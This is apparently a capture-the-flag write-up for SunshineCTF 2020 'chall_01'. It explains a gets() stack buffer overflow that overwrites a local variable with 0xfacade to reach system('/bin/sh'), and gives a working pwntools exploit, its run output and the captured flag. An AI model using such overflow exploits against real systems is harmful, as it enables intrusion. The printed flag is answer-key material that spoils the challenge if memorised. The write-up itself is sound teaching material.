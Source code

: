 ```c
  }
  if (local_10 == 0xfacade) {
    system("/bin/sh");
  }
  return;
}
```

This program is very similar to chall_00. The difference is that it takes two inputs now (the first being protected against buffer overflows). The inputs are read into two different `char` arrays. Since the second input is using `gets`, we can still perform the same attack as before. 

`gets` puts its value into `local_68`. That array has a size of 64 bytes. After filling it, we need to overwrite 24 more bytes to fill `local_28`. At this point we are at the memory reserved for `local_10`. The constant `0xfacade` can be written here in our input.

```python
#!/usr/bin/env python3

from pwn import *

context.binary = ELF('./chall_01')

if args.REMOTE:
    io = remote('chal.2020.sunshinectf.org', 30001)
else:
    io = process(context.binary.path)
print(io.recvline())

buffer = 'A' * 88
payload = p32(0xfacade)
exploit = flat(buffer, payload)

io.sendline('giveflagpls')
print("Sending: ", exploit)
io.sendline(exploit)

io.interactive()
```

Running our exploit:
```sh
meraxes@pantheon:/mnt/c/Users/meraxes/dev/ctf/sunshine-ctf-2020$ ./chall_01.py REMOTE
[*] '/mnt/c/Users/meraxes/dev/ctf/sunshine-ctf-2020/chall_01'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.2020.sunshinectf.org on port 30001: Done
b'Long time ago, you called upon the tombstones\n'
Sending:  b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xde\xca\xfa\x00'
[*] Switching to interactive mode
$ ls
chall_01
flag.txt
$ cat flag.txt
sun{eternal-rest-6a5ee49d943a053a}
$  
```
